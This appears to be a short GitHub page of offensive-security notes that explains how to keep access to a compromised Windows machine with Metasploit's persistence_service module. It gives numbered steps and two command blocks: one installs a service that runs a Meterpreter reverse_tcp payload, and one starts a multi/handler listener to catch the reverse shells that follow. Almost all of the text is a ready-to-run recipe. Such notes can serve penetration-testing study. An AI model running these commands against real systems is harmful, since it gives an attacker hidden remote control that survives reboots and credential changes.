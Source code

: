 # Establishing Persistence on a Windows Target

Persistence means techniques that allows the attacker to stay within the system even when the system is restarted or Shut down, credentials are changed etc..

#### PERSISTENCE VIA SERVICES:

**How this Module Works?**<br>
This module will generate a payload with MSF Venom and that payload will be then uploaded to the target. The Post Exploitation module will then create a new service which will start the payload when it runs.

1. Gain an initial Meterpreter shell session and Require Admin Privileges.
2. Background the current session and load the following module
3. Set the options and run the exploit

```
use exploit/windows/local/persistence_service
set SESSION 2
set LPORT 4433
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```

4. This exploit will create a persistence service that runs on the Target system.
5. This means even if the system is shutdown or credentials are changed, the service we created still exist on the system and sends reverse shell connections back to our local machine.
6. These connections can be captured by setting up a listener.

```
use multi/handler
set LHOST eth1
set LPORT 4433
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```
